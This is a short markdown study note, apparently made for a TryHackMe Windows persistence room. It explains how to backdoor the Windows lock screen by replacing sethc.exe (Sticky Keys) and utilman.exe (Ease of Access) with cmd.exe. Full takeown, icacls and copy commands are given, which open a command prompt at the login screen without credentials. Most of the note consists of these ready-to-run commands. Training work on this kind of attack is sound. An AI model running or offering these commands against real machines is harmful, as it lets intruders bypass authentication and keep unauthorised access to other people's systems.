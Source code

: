 # Windows Persistence - RDP

With physcial access you can backdoor the login screen to access a terminal without having vlid credentials for a machine. THM Room: *"The login screen is merely a suggestion."*

## Sticky Keys

Sticky Keys allow for pressing and releasing of sequential combination instead of holding combinations down simultaneously. To backdoor Sticky Keys will leverage the shortcut enabled by default on any Windows installation that allows us to activate Sticky Keys by pressing `SHIFT` five times. 
1. Replace `C:\Windows\System32\sethc.exe` ```

```powershell
takeown /f c:\Windows\System32\sethc.exe
icacls C:\Windows\System32\sethc.exe /grant Administrator:F
copy C:\Windows\System32\cmd.exe C:\Windows\System32\sethc.exe 
# Requires answer to Overwrite (Yes/No/All) prompt! Use:
# /Y
```

At the lock screen press `SHIFT` five times and you have cmd.exe without credentials.

## Utilman

Utilman is a built-in Windows application used to provide Ease of Access options during the lock screen. Similarly to Sticky Keys Backdoor we just take ownship, full permissions of the binary and  replace it with a cmd.exe or any other backdooring method.

```powershell
takeown /f c:\Windows\System32\utilman.exe
icacls C:\Windows\System32\utilman.exe /grant Administrator:F
copy C:\Windows\System32\cmd.exe C:\Windows\System32\utilman.exe
# Requires answer to Overwrite (Yes/No/All) prompt! Use:
# /Y
```

Then press the ease of access button on the lock screen.

## References

[THM Windows Persistence Room](https://tryhackme.com/room/windowslocalpersistence)